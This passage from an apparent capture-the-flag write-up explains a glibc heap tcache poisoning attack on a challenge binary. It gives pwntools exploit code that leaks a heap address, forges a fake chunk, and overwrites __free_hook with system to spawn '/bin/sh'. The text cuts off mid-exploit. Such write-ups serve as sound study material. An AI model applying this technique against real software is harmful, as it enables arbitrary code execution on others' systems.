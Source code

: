 We can see that there is a chunk of size 0x201 in the unsorted bin, and just below it there is a tcache bin. 

We can know allocate a chunk of size 0x200, and overwrite the tcache meta data, to start our tcache poisening attack:

```py
do_str(0x1f8, b'/bin/sh\x00' + b'P' * 0x38 + p64(0) + p64(0x71) + p64(libc.sym.__free_hook))

do_str(0x68, 'A' * 8) #allocate from tcache

do_str(0x68, p64(libc.sym.system)) #this will write system to __free_hook

do_free(3) #trigger __free_hook
```

This part will change the fd of our tcache chunk to point to `__free_hook`.

Later, when allocating from the tcache, it will think there is an available chunk at `__free_hook`, and return a pointer to it.

then we can just write whatever we want to there.

Here is the full exploit:

```py
from pwn import *


e = ELF("./chall")
libc = ELF("./libc.so.6")
p = e.process()

index = 0

def do_str(size, string):
	global index
	p.sendlineafter("exit", "1")
	p.sendlineafter("size? ", str(size))
	p.sendafter("str? ", string)
	index += 1
	return index-1

def do_tok(idx, delim):
	p.sendlineafter("exit", "2")
	p.sendlineafter("idx?", str(idx))
	p.sendlineafter("delim?", delim)
	return p.recvuntil("1.")[1:-3]

def do_free(idx):
	p.sendlineafter("exit", "3")
	p.sendlineafter("idx? ", str(idx))


do_str(0x70, 'b')
do_str(0x70, 'a')
do_free(0)
do_free(1)
do_str(0x70, 'P')

heap_leak = (u64(do_tok(0, "a").ljust(8, b'\x00'))) & (0xfffffffffffff000)

log.info(f"HEAP LEAK @ {hex(heap_leak)}")


fake_chunk_address = heap_leak + 0x1370
fake_chunk = p64(0x100) + p64(fake_chunk_address + 0x10) * 2 + p64(fake_chunk_address) * 2
```